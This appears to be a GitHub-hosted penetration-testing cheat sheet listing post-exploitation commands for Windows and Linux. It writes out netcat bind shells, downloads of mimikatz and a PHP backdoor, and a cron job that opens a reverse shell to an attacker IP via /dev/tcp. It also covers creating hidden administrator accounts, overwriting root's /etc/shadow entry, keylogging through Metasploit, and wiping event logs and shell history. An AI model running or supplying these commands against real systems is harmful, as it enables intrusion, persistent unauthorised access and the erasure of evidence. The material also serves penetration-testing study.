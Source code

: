 # $\color{#009466}\textbf{General}$

<details>
<summary>$\huge{\text{Bind Shell}}$</summary>

This type of shell is not preferred as the attacker directly connects to the target system and in most cases, ingress traffic is always blocked or flagged as suspicious.
- Windows (target)
  - `nc -nvlp <PORT> -e cmd.exe` or `nc.exe -nvlp <PORT> -e cmd.exe`
- Linux (target)
  - `nc -nvlp <PORT> -e /bin/bash`
- Linux (attacker)
  - `nc -nv <IP> <PORT>`
- Windows (attacker
  - `nc.exe -nv <IP> <PORT>`

<br>
</details>

<details>
<summary>$\huge{\text{Transfer files}}$</summary>

- Windows
  - `certutil -urlcache -f http://<host>/mimikatz.exe mimikatz.exe`
- Linux
  - `wget http://<host>/backdoor.php`
- Netcat
  - `nc -nvlp 1234 > test.txt (recepient)`
  - `nc -nv <ip> <port> < test.txt (sender)`

<br>
</details>

<details>
<summary>$\huge{\text{Interactive shell}}$</summary>

- Linux
  - `/bin/bash -i`

<br>
</details>

<details>
<summary>$\huge{\text{Fully interactive shell}}$</summary>

- Python
  1. `python3 -c 'import pty;pty.spawn("/bin/bash")'` or `python -c 'import pty;pty.spawn("/bin/bash")'`
  2. Press `CTRL + Z` : to background process and get back to your host machine
  3. `stty raw -echo; fg`
  4. `export TERM=xterm`

<br>
</details>

<details>
<summary>$\huge{\text{Keylogger}}$</summary>
 
- Metasploit
  - `keyscan_start` : start keylogger
  - `keyscan_dump` : print captured strokes

<br>
</details>

<details>
<summary>$\huge{\text{Pivoting}}$</summary>
 
- Metasploit (in meterpreter)
  - `ipconfig` : find subnet (the host may be in other network)
  - `run autoroute -s <subnet>` : **This means anytime we want to contact a machine within one of the networks specified, we will go through meterpreter session and use that to connect to the targets.**
    - Example:
      - `ipconfig` : IP 19.9.29.148. Netmask: 255.255.240.0
      - `run autoroute -s 10.10.0.29.0/20`
  - `run autoroute -p` : Displays active routing table.
  - auxiliary/scanner/portscan/tcp : We can perform the scan. NOTE: scanning with metasploite is limited (we can't discover software version etc...) so it's better to use nmap. To do that we need to perform port forwarding.
  - **since target_sys_2 does not have a route back to attacker_sys, use bind_shell payload** : windows/meterpreter/bind_tcp
- Port forwarding (meterpreter/metasploit)
  - `portfwd add -l 1234 -p 80 -r <target_sys_2_ip>` : Forward remote port to local port. In this case we want to scan the port 80 of the target 2
  - `portfwd list`
  - `nmap -sV -sC -p 1234 localhost`
  

<br>
</details>

<details>
<summary>$\huge{\text{Change user password}}$</summary>

- Linux
  - `openssl passwd -1 -salt <salt> <new_pass>`
    - -1 means weakest algorithm, -6 means strongest
    - Copy the generate entry and add it to root record in /etc/shadow
- Windows
  - `net user <username> <new_pass>`

<br>
</details>

# $\color{#009466}\textbf{Windows}$

<details>
<summary>$\huge{\text{Enumeration}}$</summary>

- System info
  - `systeminfo`
  - `whoami` : Get current user
  - `whoami /priv` : Get current user privileges. Useful for privelage escalation
  - `wmic qfe get Caption,HotFixID,InstalledOn,Description` : Get installed updates. Useful to see security patch
  - `net localgroup` : Adds, displays, or modifies local groups
  - `net localgroup <group>` : Get group membership of user -> `net localgroup administrators`
  - `net user <user>` : Get user info
- Network Info
  - `ipconfig /all`
  - `netstat -ano` : lists info on tcp/udp ports	
  - `netsh advfirewall show allprofiles` : shows f/w status
  - `arp -a` : display arp table (arp cache to discover other IP addresses on the target network)
  - `route print` : print route table (useful during the pivoting phase of post-exploitation as it can reveal network routes)
- Processes & Services 
  - `net start` : lists services running
  - `wmic service list brief` : same as above with extra details like pid, active state, etc.  
  - `net stop <servicename>` : stop a service
  - `tasklist /svc` : list process with respecive services
  - `schtasks /query /fo list /v` : list scheduled tasks
- Automation : JAWS - https://github.com/411Hall/JAWS
  - `powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt`     

<br>
</details>

<details>
<summary>$\huge{\text{Persistence}}$</summary>
 
- Metasploit
  - search persistence module (Windows)
  - Ex: exploit/windows/local/persistence_service
    - It will generate and upload an executable to a remote host, next will make it a persistent service. It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.
    - When you want to connect again you need to set a listener to receive the connection
- Enable RDP
  - with metasploit : search enable_rdp (and set session)
    - Connect to victim from attacker
      - Note: you need username and password, if you don't have the password : change it `net user <username> <new_pass>` (suspicious in a real environment) or crack NTLM...
      - Note 2: you can create a new account and add it to administrator group...
  - second way with metasploit/meterpreter (auto create account and settings):
    - In meterpreter `run getgui -e -u user_you_want -p password_you_want`
      - enables rdp service --> creates new user with the provided parameters -->  hides user from windows login screen --> adds user to Remote Desktop Users and Administrators group.


<br>
</details>

<details>
<summary>$\huge{\text{Clearing tracks}}$</summary>
 
- Metasploit/Meterpreter
  - `clearev` (clear the Application, System, and Security logs on a Windows system)
    
<br>
</details>

# $\color{#009466}\textbf{Linux}$

<details>
<summary>$\huge{\text{Enumeration}}$</summary>

- System info
  - `cat /etc/issue` Print linux distro version (Contains a message or system identification to be printed before the login prompt)
  - `uname -a` Print certain system information. One example : Useful for kernel privesc or to show architecture 
  - `env` Print environment variables
  - `lscpu` : for hardware info
  - `free -h` : for RAM usage
  - `df -h` : for disk usage
  - `dpkg -l` : list packages installed with version
- Enumerate Users
  - `whoami`
  - `groups <user>`
  - `useradd -m <user> -s /bin/bash` : Creates a user. Useful for persistence
  - `usermod -aG root <user>` : Add bob to root group. Useful for persistence
  - `lastlog` : ssh session enumerate
  - `last` : log of users logged in
- Enumerate Network
  - We want: Current IP, Internal networks, TCP/UDP services running and their respective ports, Other hosts on the network
  - `ip a`
    - Useful to discover other network
  - `cat /etc/hostname` : display hostname
  - `cat /etc/hosts` : maps IP addresses to domain
    - Useful to discover internal domain you can access
  - `cat /etc/resolv.conf` : display the domain name server
    - Many times it is the default gateway
  - Meterpreter
    - `netstat` : Display the network connections
    - `route` : View and modify the routing table
      - Note: gateway is important... it can be a DNS server, DHCP server or all in one
    - `arp -a` : Display the host ARP cache
- Processes & services
  - `ps aux | grep root` : Useful for privesc
  - `top` dynamic real-time view of a running system (like task manager)
  - `crontab -l` : display cronjob for the root user
  - `ls -al /etc/cron*` : display all file that contains cronjob
  - `cat /etc/cron*` : display the contents of all cronjob files

<br>
</details>

<details>
<summary>$\huge{\text{Persistence}}$</summary>

- Metasploit
  - search persistence module (Linux)
    - Example: post/linux/manage/sshkey_persistence (needed elevated privs - This module will add an SSH key to a specified user)
- Via SSH key
  - After gaining access to linux system, you can transfer SSH private key to local machine and use it to connect via SSH
- With cron jobs
  - Set up listener
  - `echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'" > cron` : create a cronjob (every minute time format)
  - `crontab -i cron`
  - `crontab -l` : crontab for the current user
  - NOTE: if the command doesn't work try with another one... revshell 

<br>
</details>

<details>
<summary>$\huge{\text{Clearing tracks}}$</summary>

- `history -c` : to clear history in linux
- `cat /dev/null > ~/.bash_history` : same as above

<br>
</details>
